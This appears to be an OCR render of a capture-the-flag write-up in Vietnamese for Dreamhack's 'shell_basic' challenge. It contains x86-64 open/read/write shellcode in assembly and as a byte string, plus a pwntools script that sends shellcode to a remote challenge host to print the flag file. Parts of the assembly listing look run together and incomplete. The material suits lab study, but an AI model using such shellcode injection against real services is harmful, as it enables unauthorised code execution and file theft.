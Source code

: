 ```
        push rax                                ; *rsp = "c/flag_name_is_loooooong\x0"
        mov rax, 0x697361625f6c6c65             ; rax = "ell_basi"
        push rax                                ; *rsp = "ell_basic/flag_name_is_loooooong\x0"
        mov rax, 0x68732f656d6f682f             ; rax = "/home/sh"
        push rax                                ; *rsp = "/home/shell_basic/flag_name_is_loooooong\x0"
        mov rdi, rsp                            ; rdi = rsp ; *rdi = "/home/shell_basic/flag_name_is_loooooong\x0"        xor rsi, rsi                            ; rsi = 0
        xor rdx, rdx                            ; rdx = 0
        mov rax, 0x02                           ; rax = 0x02 ; syscall_open
        syscall

        ; read(fd, buf, 0x30)
        mov rdi, rax                            ; rdi = rax ; *rdi = "DH{...}"
        mov rsi, rsp                            ; rsi = rsp
        sub rsi, 0x30                           ; rsi = rsi - 0x30
        mov rdx, 0x30                           ; rdx = 0x30
        mov rax, 0x00                           ; rax = 0x00 ; syscall_read
        syscall

        ; write(1, buf, 0x30)
        mov rdi, 0x01                           ; rdi = 1
        mov rax, 0x01                           ; rax = 0x01
        syscall
```


```

$ nasm -f elf64 shellcode.asm
$ for i in $(objdump -d shellcode.o|grep "^ "|cut -f2);do echo -n \\x$i;done
\x48\x31\xc0\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05
```

cách 2 dùng pwntools :
```
from pwn import * 
context.log_level = "debug" 
r = remote("host1.dreamhack.games", 11033) 
context(arch='amd64', os='linux')
sh = pwnlib.shellcraft.cat("/home/shell_basic/flag_name_is_loooooong", fd=1)


r.sendlineafter("shellcode: ", asm(sh))
r.recvline()
r.interactive()
```

đọc thêm 
